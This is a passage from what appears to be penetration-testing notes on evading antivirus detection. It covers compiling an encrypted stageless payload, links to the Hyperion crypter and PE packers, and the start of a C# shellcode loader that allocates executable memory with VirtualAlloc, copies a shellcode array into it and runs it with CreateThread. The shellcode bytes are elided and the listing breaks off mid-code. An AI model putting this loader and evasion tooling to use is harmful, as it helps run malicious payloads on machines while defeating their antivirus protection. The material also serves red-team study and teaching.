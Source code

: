 ```csharp
  }
}

# Let's compile our payload with the following command on the Windows machine:
csc.exe EncStageless.cs
```
{% endcode %}

## Hyperion (Encrypter)

[https://www.kali.org/tools/hyperion/\
https://nullsecurity.net/tools/binary.html\
https://github.com/jivoi/pentest/blob/master/shell/hyperion\_crypter.sh\
https://rafaelhart.com/2019/10/installing-hyperion-on-kali-linux/](https://www.kali.org/tools/hyperion/https://nullsecurity.net/tools/binary.htmlhttps://github.com/jivoi/pentest/blob/master/shell/hyperion_crypter.shhttps://rafaelhart.com/2019/10/installing-hyperion-on-kali-linux/)

## Packers / exe obfuscator

[https://github.com/phra/PEzor](https://github.com/phra/PEzor)

[https://github.com/dotPY-hax/frankenstein-obfuscator](https://github.com/dotPY-hax/frankenstein-obfuscator)

Another method to defeat disk-based AV detection is to use a packer. **Packers** are pieces of software that take a program as input and transform it so that its structure looks different, but their functionality remains exactly the same.

* Compress the program so that it takes up less space.
* Protect the program from reverse engineering in general.

{% code overflow="wrap" fullWidth="true" %}
```csharp
# Packing Payload Code (UnEncStagelessPayload.cs)
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    byte[] shellcode = new byte[] {0xfc,0x48,0x83,...,0xda,0xff,0xd5 };


    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

```